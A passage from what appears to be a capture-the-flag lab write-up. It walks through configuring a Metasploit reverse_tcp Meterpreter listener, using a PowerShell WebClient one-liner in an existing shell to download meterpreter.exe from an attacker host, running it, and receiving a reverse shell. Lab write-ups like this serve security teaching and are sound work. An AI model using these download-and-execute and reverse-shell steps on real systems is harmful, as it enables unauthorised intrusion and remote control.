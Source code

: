 Let's setup Metasploit now:
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
And make sure to run it.

Now in our reverse shell run this command to get the payload ```powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.28:8000/meterpreter.exe', 'meterpreter.exe')"```

```
C:\Users\tolis\Desktop>powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.28:8000/meterpreter.exe', 'meterpreter.exe')"
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.28:8000/meterpreter.exe', 'meterpreter.exe')"


C:\Users\tolis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\tolis\Desktop

02/09/2020  06:49 ��    <DIR>          .
02/09/2020  06:49 ��    <DIR>          ..
02/09/2020  06:49 ��            73.802 meterpreter.exe
22/03/2017  10:01 ��                32 user.txt
               2 File(s)         73.834 bytes
               2 Dir(s)  33.183.948.800 bytes free

C:\Users\tolis\Desktop>
```
So let's run it now:
```
C:\Users\tolis\Desktop>.\meterpreter.exe
.\meterpreter.exe
```
And you should get your meterpreter reverse shell:
```
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:5555 
[*] Sending stage (176195 bytes) to 10.10.10.11
```